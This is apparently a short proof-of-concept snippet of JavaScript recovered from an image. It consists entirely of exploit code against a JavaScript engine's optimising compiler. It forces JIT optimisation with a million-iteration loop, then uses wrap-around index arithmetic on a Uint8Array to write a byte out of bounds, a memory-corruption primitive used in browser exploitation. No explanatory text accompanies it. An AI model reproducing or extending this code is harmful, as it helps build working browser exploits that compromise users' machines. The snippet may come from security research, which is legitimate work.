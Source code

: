 
function corrupt(array, offset, oob_byte) {
    var base = -0x7FFFFFC1 + offset;
    array[base - (-0x80000000)] = 0x4B;
    array[base + 0x7FFFFFE1]    = 0x4B;
    array[base + 0x7FFFFFC1]    = oob_byte;
}

function trigger_optimize () {
    var array = new Uint8Array(0x40);
    for (var i = 0; i < 1000000; i++) corrupt(array, 0, 0x00);
}

trigger_optimize();

var exploit_array = new Uint8Array(0x40);
corrupt(exploit_array, -2, 0x80);

